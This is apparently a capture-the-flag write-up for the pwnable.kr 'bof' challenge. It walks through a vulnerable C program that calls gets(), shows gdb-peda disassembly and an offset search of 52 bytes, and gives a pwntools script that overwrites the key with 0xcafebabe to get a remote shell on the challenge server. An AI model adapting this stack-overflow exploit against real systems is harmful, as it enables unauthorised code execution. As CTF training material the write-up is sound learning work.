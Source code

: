 # [pwnable.kr](http://pwnable.kr/play.php) - bof Challenge
![](pwnable.kr-website.png)
## 1.1 Getting resource
```sh
$ wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
```
```bash
th3knight$wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
--2022-01-09 17:45:49--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7,2K)
Saving to: ‘bof.2’

bof.2                         100%[=================================================>]   7,18K  --.-KB/s    in 0s

2022-01-09 17:45:50 (526 MB/s) - ‘bof.2’ saved [7348/7348]

--2022-01-09 17:45:50--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c.2’

bof.c.2                       100%[=================================================>]     308  --.-KB/s    in 0s

2022-01-09 17:45:50 (18,1 MB/s) - ‘bof.c.2’ saved [308/308]
```

## 1.2 Overflowing the program
### 1.2.1 Reading and analysis the source code
First up, we need to see what is in the code
```bash
$ cat bof.c
```
```c
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
We see that, in the main function inputted is `0xdeadbeef`
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef); // <=== Here
        return 0;
}
```

and in `func()`, there is an array with `char overflowme[32]` and have a risk function called from lib is `gets()` with the note: smash me!
```c
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```
and if the key (which is `0xdeadbeef`) is `0xcafebabe`, there would be system call the `sh` binary
```c
if(key == 0xcafebabe){
	system("/bin/sh");
}
```
### 1.2.2 Debugging program and find the offset to overflow & override the key.
In here i will use the gdb debugger to the bug the program
```bash
th3knight$gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$
```
In here, the output of mine might different than yours because i've already installed the [Peda](https://github.com/longld/peda)
Let's disassembly the main
```powershell
gdb-peda$ disas main

Dump of assembler code for function main:
   0x5655568a <+0>:     push   ebp
   0x5655568b <+1>:     mov    ebp,esp
   0x5655568d <+3>:     and    esp,0xfffffff0
   0x56555690 <+6>:     sub    esp,0x10
   0x56555693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:    call   0x5655562c <func>
   0x5655569f <+21>:    mov    eax,0x0
   0x565556a4 <+26>:    leave
   0x565556a5 <+27>:    ret
End of assembler dump.
```
In here, we could see in the address `0x56555693` : `0xdeadbeef` moved into pointer of ESP and then `call <func>`, let's disassembly the function `func` to see other intructions.
```powershell
gdb-peda$ disas func

Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
In this function, I see the compare intruction `cmp  DWORD PTR [ebp+0x8],0xcafebabe` so i know this is `if(key == 0xcafebabe)` operation. Let's make a break point on it and create a pattern to overflow and get the offset.

Folowing to the workflow of the code, I know that `0x5655564f <+35>:  call   0x56555650 <func+36>` will be the `gets()`,  so I just make a breakpoint before and after calling it to see what happend.
```powershell
gdb-peda$ br *0x5655564c
Breakpoint 1 at 0x5655564c
gdb-peda$ br *0x56555654
Breakpoint 2 at 0x56555654
```
Creating the offset
```powershell
gdb-peda$ pattern create 100 1.txt
Writing pattern of 100 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
On the stop of break point 1, we use `x/100wx $esp` to show the esp, I got lots of result but can see that there is 0xdeadbeef overthere
```powershell
0xffffd210:     0xffffd22c      0x00000000      0xf7ffd000      0x00000000
0xffffd220:     0x00000000      0x00000000      0x56555034      0x5655573a
0xffffd230:     0x56556ff4      0xf7fa6000      0x00000001      0x5655549d
0xffffd240:     0xf7fa63fc      0xffffffff      0x56556ff4      0xbb15de00
0xffffd250:     0x56556ff4      0xf7fa6000      0xffffd278      0x5655569f
0xffffd260:     0xdeadbeef      0x00000000      0x565556b9      0x00000000 ; <===
```
Now we know the address `0xffffd260` has`0xdeadbeef`. Enter `c` or `continue` to continue and stop at the next breakpoint, let's show it's stack to get the offset and using the pattern offset of ![peda](https://github.com/longld/peda) to find the exact length
```powershell
gdb-peda$ x/x 0xffffd260
0xffffd260:     0x41474141
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

### 1.3 POC and getting the flag
We already know position of `0xdeadbeef`, it's beginning from word 52. I wrote a python script `poc.py` to make a buffer and send to the server following the instruction of the game `nc pwnable.kr 9000`. 
```python
#!/usr/bin/python3
import struct  
import pwn  
  
junk = b'A'*52  
key = struct.pack('<L', 0xcafebabe)  
overriden_key_buffer = junk + key  
connection = pwn.remote('pwnable.kr', 9000)  
connection.sendline(overriden_key_buffer)  
connection.interactive()
```
```bash
th3knight$./poc.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag    <=== This is what we need
log
log2
super.pl
```
Thanks for reading
